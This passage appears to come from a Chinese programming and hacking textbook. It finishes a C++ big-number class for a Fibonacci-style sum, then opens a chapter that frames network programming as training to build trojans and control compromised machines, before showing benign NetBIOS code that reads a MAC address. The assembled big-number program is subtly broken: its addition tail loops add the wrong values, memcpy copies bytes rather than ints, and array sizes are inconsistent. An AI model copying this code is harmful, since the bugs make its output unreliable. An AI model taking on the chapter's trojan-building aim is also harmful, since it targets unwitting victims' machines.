int main()
{
    CBigNumber a(100);
    CBigNumber b;
}
```

因为看不到它们的值，所以只好单步调试，通过 watch 窗口来查看值。运行到 `CBigNumber a(100);` 后，把 CBigNumber 对象 a 展开，看到 a[0]=3，a[1]=0，a[2]=0，a[3]=1。这表示3位数，个位十位是0，百位为1，的确正确，如图1.31。



图1.31

但每次这样检查就比较麻烦，而且使用者也无法看到大数的值，所以再编写一个成员函数 `print()`，作用就是把成员 a 的值按照人们的阅读习惯打印出来。打印时，应该先打印最高位 a[a[0]]，然后依次往低位打印，直到个位 a[1]。按照这个思路，`print()` 成员函数如下：

```cpp
void print()
{
    for(int i=a[0]; i>=1; i--)
        printf("%d", a[i]);
    printf("\n");
}
```

测试下调用 `print` 的方法。

```cpp
int main()
{
    CBigNumber a(100);
    CBigNumber b;

    a.print();
    b.print();
}
```

答案如图1.32。



图1.32

好，接下来进入最激动人心的地方了，重载操作符“+”号和“=”号，方便我们完成相加操作。首先重载“=”运算符，查了半天 C++ 的例子，才明白格式应该如下 `CBigNumber & operator=(const CBigNumber& origin)`。参数里的值为“=”号右边的大数对象，“=”的功能是把参数 origin 里的数组 a 赋给自己的成员变量 a。其代码如下。

```cpp
CBigNumber & operator=(const CBigNumber& origin)
{
    if(&origin != this)
    {
        memcpy(a, origin.a, max_len);
    }
    return *this;
}
```

改改主程序，在主程序中加入“=”符号的测试代码：

```cpp
CBigNumber a(100);
CBigNumber b;
b = a;
a.print();
b.print();
```

a 先等于100，然后把 a 的值用“=”操作符赋给 b，最后打印出来两者的值作为验证。运行，成功，a 为100，b 也为100了，如图1.33。

然后重载“+”运算符，有了“=”符号的经验，重载加号就比较简单了，“+”的操作老师其实都已经给了，搬过来就好，程序如下。

```cpp
CBigNumber operator+(const CBigNumber& x)
{
    CBigNumber z;
    int c=0; // 进位值初始化为0
    int i=1;
    int temp;
    while(i<=x.a[0] && i<=a[0])
    {
        // 每一位对齐和进位相加
        temp = x.a[i]+a[i]+c;
        // 个位为本位的值，十位为进位值
        z.a[i] = temp % 10;
        c = temp / 10;
        i++;
    }
    // 如果一个数比另一个数的位数更多，位数多的数继续和进位相加计算
    while(i<=x.a[0])
    {
        temp = x.a[i] + c;
        z.a[i] = temp % 10;
        c = temp / 10;
        i++;
    }
    // 如果一个数比另一个数的位数更多，位数多的数继续和进位相加计算
    while(i<=a[0])
    {
        temp = a[i] + c;
        z.a[i] = temp % 10;
        c = temp / 10;
        i++;
    }
    // 最后一位没有进位
    if(c==0)
        z.a[0]=i-1;
    // 最后一位有进位
    else
    {
        z.a[i] = c;
        z.a[0] = i;
    }
    return z;
}
```

同样的，写下测试程序能否达到效果。定义一个变量 c，值 c 的来源为 `c = a + b`，最后把 c 的值打出，程序如下。

```cpp
CBigNumber a(100);
CBigNumber b;
CBigNumber c;
b = a;
c = a + b;
a.print();
b.print();
c.print();
```

运行，好成功！如图1.34。



图1.34

写了这么久，好累啊，不过大数类要用的功能都写好了，只剩最后的使用这个类，完成上梯子的计算了！很简单，首先定义 a[101] 个 CBigNumber 的对象，然后给 a[0] 和 a[1] 赋初值，它们都为1。

```cpp
CBigNumber a[201];
CBigNumber a0(1);
CBigNumber a1(1);
a[0] = a0;
a[1] = a1;
```

然后就像小数 int 计算时一样，直接前两个数相加得到后一个数。

```cpp
for(int i=2; i<=100; i++)
{
    a[i] = a[i-1] + a[i-2];
}
```

最后把 a[100] 的值打印出来 `a[100].print();`，合起来，得到了 dashuClass 程序。

```cpp
#include<stdio.h>
#include<memory.h>
#define max_len 500
class CBigNumber
{
private:
    int a[max_len];
public:
    CBigNumber()
    {
        for(int i=0; i<max_len; i++)
        {
            a[i] = 0;
        }
    }
    CBigNumber(int origin)
    {
        int i=1;
        int temp = origin;
        for(; temp != 0; i++)
        {
            a[i] = temp % 10;
            temp /= 10;
        }
        a[0] = i-1;
    }
    void print()
    {
        for(int i=a[0]; i>=1; i--)
            printf("%d", a[i]);
        printf("\n");
    }
    CBigNumber & operator=(const CBigNumber& origin)
    {
        if(&origin != this)
        {
            memcpy(a, origin.a, max_len);
        }
        return *this;
    }
    CBigNumber operator+(const CBigNumber& x)
    {
``````cpp
CBigNumber z;
int c = 0;  // 进位值初始为0
int i = 1;
int temp;
while(i <= x.a[0] && i <= a[0])
{
    // 每一位对齐和进位相加
    temp = x.a[i] + a[i] + c;
    // 个位为本位的值，十位为进位值
    z.a[i] = temp % 10;
    c = temp / 10;
    i++;
}
// 如果一个数比另一个数的位数更多，位数多的数继续和进位相加计算
while(i <= x.a[0])
{
    temp = x.a[i] + a[i] + c;
    z.a[i] = temp % 10;
    c = temp / 10;
    i++;
}
// 如果一个数比另一个数的位数更多，位数多的数继续和进位相加计算
while(i <= a[0])
{
    temp = x.a[i] + a[i] + c;
    z.a[i] = temp % 10;
    c = temp / 10;
    i++;
}
// 最后一位没有进位
if(c == 0)
    z.a[0] = i - 1;
// 最后一位有进位
else
{
    z.a[i] = c;
    z.a[0] = i;
}
return z;
}
};

// main函数
int main()
{
    // 定义100个大数类对象数组
    CBigNumber a[101];
    // a0和a1设为1
    CBigNumber a0(1);
    CBigNumber a1(1);

    a[0] = a0;
    a[1] = a1;

    // 计算
    for(int i = 2; i <= 100; i++)
    {
        a[i] = a[i - 1] + a[i - 2];
    }
    // 打印结果
    a[100].print();
    return 0;
}



```

自己怀着不安的心情，一点执行，结果出来了，如图1.35。
图1.35

还是 **573147844013817084101**，和老师的答案一样！哈哈哈哈哈哈哈，我们狂笑一阵，“我自横刀向天笑”，胜利实现老师布置的大数类的作业！

感觉还不过瘾，就把 **a[30]**、**a[200]** 等值都打出来看了看，果然 C++ 有了类封装的思想，使用起来非常的简单。完成之后，自己激动的心情久久不能平静，好题啊，怎么有这么好的题啊，我以为不会有题打动我……（此处省略1万字），就艺术的角度而言，这道题不算太成功，但它的实验意义却远远大于成功本身。通过这个题，自己对类的理解又上了一层，使我明白了天外有天，人外有人的道理……

# 第二章 网络编程入门

这天一大早，老师就开心地哼着歌走进了教室：“今天天气不错，挺风和日丽的，有好的天气，学习起来才会有一个好的心情。”

下边的小菜们附和道：“是呀，是呀，不知道老师今天准备教我们什么呀！”

老师问道：“你们想不想做一个有实力的程序员，成为一个真正的黑客高手呢？”

“当然想啊。”小菜们齐声答道。

“那大家学习这门课最想达到的目的是什么呢？说来听听。”

“这一年是鸡年，那当然希望鸡年肉鸡连连了！哈哈哈哈！”小菜们忘情地笑道。

“哦！这个，这个其实我也很想的……”老师说道，“工欲善其事，必先利其器，那我们要控制肉鸡，离不开什么呢？”

“唔……”小菜们思索了一会儿：“为什么我们可以控制肉鸡呢？木马！对！一定是木马！”

“没错！大家看！”老师在墙上投影出了几十种木马。只见“冰河”老骥伏枥，“广外女生”娇小玲珑，“灰鸽子”展翅欲飞，“黑客之门”深邃绝伦，“hxcdef100”、“ntrootkit”……一个个功能强大的木马，就像一个个绝世高手，深怀绝技，但人们又无法从外表看出其真正的功力。

“哇！从来没见过这么多木马啊！”小菜们玩玩这个，玩玩那个，试着控制远端机器的文件、键盘、鼠标，甚至光驱、打印机等，一个个都对木马爱不释手。

“不错不错，它们为何能有这些奇妙功能呢？”大家抬起头来问老师。

“呵呵，这是因为创造者赋予了它们灵魂与生命！”

“啊？？？”

“也就是说，有某个程序员，编写了界面和木马拥有的功能……”

“哦！那个程序员好厉害啊！”

“呵呵，成为一个木马使用者比较简单，但大家想不想进一步成为一个木马的创造者呢？”老师问道。

“当然想啊，当然想啊！不过……比较困难吧？”小菜们为难地说道。

“只要有恒心和毅力，没有事情是做不了的。”老师说道，“上节课我们讲了利用 VC 编程要注意的地方。下面的课我们就把重点放在网络的编写技术上，让大家也能成为木马的终结者，哦，不，木马的制造者吧！”

## 2.1 计算机网络通信编程方法

“木马，木马，就是木头做的马！”老师说道。

扑通……台下倒了一大片。

“啊，这是出自经典名片《特洛伊》，大家没有听说过这个故事吗？都拍成好莱坞大片了。”

扑通……剩下的也全倒了，好不容易才站起来。

“而在计算机里面，就借用了木马这个名称，来形容一切可以通过网络控制对方，监视对方而对方却不知道的间谍程序！”老师说道，“既然木马是通过网络来远程控制肉鸡的，那么木马必须要拥有的首要功能就是通过网络和控制端通信的功能。”

小菜们拍拍身上的灰尘，点点头。

“而说到网络通信，我们有好几种实现方法，大家一起看看。”

### 2.1.1 基于NetBIOS编程

第一种方法是基于 NetBIOS 的网络编程。NetBIOS 是 PC 机网络中用得最为广泛的网络协议之一，大多数的局域网（LAN）产品都支持 NetBIOS。而 Windows 的操作系统在局域网内部的网络协议更是以 NetBIOS 为主，所以 NetBIOS 有很多应用的场合。

NetBIOS 的全称是 Network Basic Input Output System，即网络基本输入输出系统。由 IBM 最先提出，现已成为网络应用程序的事实标准。

NetBIOS 控制块（NCB）是所有 NetBIOS 应用程序都要用来访问 NetBIOS 服务的一个程序设计结构，并且是唯一的一个。NetBIOS 控制块的 C 结构如下：

```c
typedef struct tagNCB
{
    BYTE ncb_command;
    BYTE ncb_retcode;
    BYTE ncb_lsn;
    BYTE ncb_num;
    DWORD ncb_buffer;
    WORD ncb_length;
    BYTE ncb_callname[16];
    BYTE ncb_name[16];
    BYTE ncb_rto;
    BYTE ncb_sto;
    BYTE ncb_post;
    BYTE ncb_lana_num;
    BYTE ncb_cmd_cplt;
    BYTE ncb_reserved[14];
} NCB, *PNCB;
```

`ncb_command` 字段：每一个发往 NetBIOS 的 NCB 都代表一项要执行的动作，具体执行哪项动作，由 `ncb_command` 字段的取值决定。NetBIOS 命令的使用方式有两种，即同步和异步。同步命令将阻止提交处理的执行，直到该命令执行完毕；而异步命令由 NetBIOS 在内部排队，并不阻止执行。`ncb_command` 的取值和含义如下：

| NetBIOS 命令描述 | 同步代码 | 异步代码 |
|---|---|---|
| NCBRESET 复位 | 32h | 不允许 |
| NCBASTAT 适配器状态 | 33h | B3h |
| NCBCANCEL 取消 | 35h | 不允许 |
| NCBUNLINK 取消链接 | 70h | 不允许 |
| NCBADDNAME 加入名称 | 30h | B0h |
| NCBDELNAME 删除名称 | 31h | B1h |
| NCBADDGRNAME 加入组名 | 36h | B6h |
| NCBFINDNAME 寻找名称 | 78h | F8h |
| NCBCALL 呼叫 | 10h | 90h |
| NCBLISTEN 侦听 | 11h | 91h |
| NCBHANGUP 挂起 | 12h | 92h |
| NCBSEND 发送 | 14h | 94h |
| NCBRECV 接收 | 15h | 95h |
| NCBRECVANY 全部接收 | 16h | 96h |
| NCBCHAINSEND 链发送 | 17h | 97h |
| NCBCHAINSENDNA 链发送（无回应） | 72h | F2h |
| NCBSSTAT 状态 | 34h | B4h |
| NCBDGSEND 发送数据 | 20h | A0h |
| NCBDGRECV 接收数据 | 21h | A1h |
| NCBDGSENDBC 发送广播 | 22h | A2h |
| NCBDGRECVBC 接收广播 | 23h | A3h |

## 小结：

老师说道：“利用 NetBIOS 编程是一件很简单的事情；我们只要定义一个 NCB 结构，先把结构清空，然后填充要做的命令和少数几个字段，最后把它作为参数调用 Netbios() 函数就可以执行了。”

“我们看个实际的例子吧，通过 NetBIOS 获得本机的 MAC 地址。先定义 NCB 结构的变量 ncb，并将其清空。”

```c
NCB ncb;
// 首先清空 NCB
memset(&ncb, 0, sizeof(ncb));
```

“然后设置 ncb 的命令 `ncb_command` 成员为 `NCBRESET`，表示复位；再设置 NCB 的 `ncb_lana_num` 成员为 0。”

```c
ncb.ncb_command = NCBRESET;
ncb.ncb_lana_num = 0;
```

“这样就可以将 ncb 作为参数调用 Netbios 函数了，`uRetCode = Netbios(&ncb);`。”

“类似的，我们再填充 ncb 的 `ncb_command` 为 `NCBASTAT` 命令，就可以得到机器的 MAC 地址了。程序合起来如下，在程序中有详细的注释。”

```c
#include <windows.h>
#include <wincon.h>
#include <stdlib.h>
#include <stdio.h>
#include <time.h>
// Netbios 在 Netapi32 lib 中
#pragma comment(lib, "Netapi32")
// 存返回值的结构
typedef struct _ASTAT_
{
    ADAPTER_STATUS adapt;
    NAME_BUFFER NameBuff[30];
} ASTAT, *PASTAT;
ASTAT Adapter;
void main(void)
{
    // 定义 NCB 变量
    NCB ncb;
    UCHAR uRetCode;
    // 1. 执行复位命令
    // 首先清空 NCB
    memset(&ncb, 0, sizeof(ncb));
    // 设置 NCB 的命令为 NCBRESET，表示复位
    ncb.ncb_command = NCBRESET;
    // 设置 NCB 的 ncb_lana_num
    ncb.ncb_lana_num = 0;
    // 将 NCB 作为参数调用 Netbios 函数，执行
    uRetCode = Netbios(&ncb);
    printf("The NCBRESET return code is: 0x%x \n", uRetCode);
    // 2. 执行 NCBASTAT 命令
    // 清空 NCB，设置 NCB 的命令为 NCBASTAT
    memset(&ncb, 0, sizeof(ncb));
    ncb.ncb_command = NCBASTAT;
    ncb.ncb_lana_num = 0;
    // 设置 NCB 的 ncb_callname、ncb_buffer、ncb_length
    strcpy(ncb.ncb_callname, "*               ");
    ncb.ncb_buffer = (char *)&Adapter;
    ncb.ncb_length = sizeof(Adapter);
    // 将 NCB 作为参数调用 Netbios 函数，执行
    uRetCode = Netbios(&ncb);
    printf("The NCBASTAT return code is: 0x%x \n", uRetCode);
    // 3. 输出结果
    if (uRetCode == 0)
    {
        printf("The Ethernet Number is: %02x-%02x-%02x-%02x-%02x-%02x\n!",
            Adapter.adapt.adapter_address[0],
            Adapter.adapt.adapter_address[1],
            Adapter.adapt.adapter_address[2],
            Adapter.adapt.adapter_address[3],
            Adapter.adapt.adapter_address[4],
            Adapter.adapt.adapter_address[5]);
    }
}


















